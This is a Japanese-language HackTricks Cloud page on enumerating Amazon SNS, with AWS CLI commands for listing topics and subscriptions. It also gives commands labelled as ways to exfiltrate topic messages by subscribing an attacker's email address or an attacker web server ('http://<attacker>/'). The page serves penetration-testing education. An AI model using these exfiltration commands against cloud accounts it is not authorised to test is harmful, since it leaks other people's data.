 # AWS - SNS Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でゼロからヒーローまでAWSハッキングを学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

## SNS

Amazon Simple Notification Service（Amazon SNS）は、**アプリケーション間**（A2A）および**アプリケーション対人**（A2P）通信のための**完全に管理されたメッセージングサービス**です。

A2Aのpub/sub機能は、分散システム、マイクロサービス、イベント駆動型サーバーレスアプリケーション間の高スループット、**プッシュベースの多対多**メッセージングのための**トピック**を提供します。Amazon SNSトピックを使用すると、パブリッシャーシステムはメッセージを**多数のサブスクライバーシステムにファンアウト**することができます。

### **SQSとの違い**

**SQS**は**キューベース**のサービスで、**単一のコンシューマー**によってメッセージが処理されることを保証するポイントツーポイント通信を可能にします。それは**少なくとも一度の配信**を提供し、標準およびFIFOキューをサポートし、リトライや遅延処理のためのメッセージ保持を可能にします。\
一方、**SNS**は**パブリッシュ/サブスクライブベース**のサービスで、メッセージを**同時に複数のサブスクライバー**にブロードキャストすることによって**一対多**通信を可能にします。それは**電子メール、SMS、Lambda関数、HTTP/HTTPSなどのさまざまなサブスクリプションエンドポイント**をサポートし、ターゲットメッセージ配信のためのフィルタリングメカニズムを提供します。\
両方のサービスは分散システムのコンポーネント間の結合を解除することを可能にしますが、SQSはキュー通信に焦点を当て、SNSはイベント駆動のファンアウト通信パターンを強調します。

### **列挙**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
**トピックがFIFOタイプの場合**、プロトコル **SQS** を使用しているサブスクライバーのみが使用できます（HTTPまたはHTTPSは使用できません）。

また、`--topic-arn`にリージョンが含まれていても、**`--region`** で正しいリージョンを指定しないと、アクセス権がないように見えるエラーが発生しますが、問題はリージョンです。
{% endhint %}

### 認証されていないアクセス

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### 権限昇格

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### 攻撃後の活動

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### 持続性

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

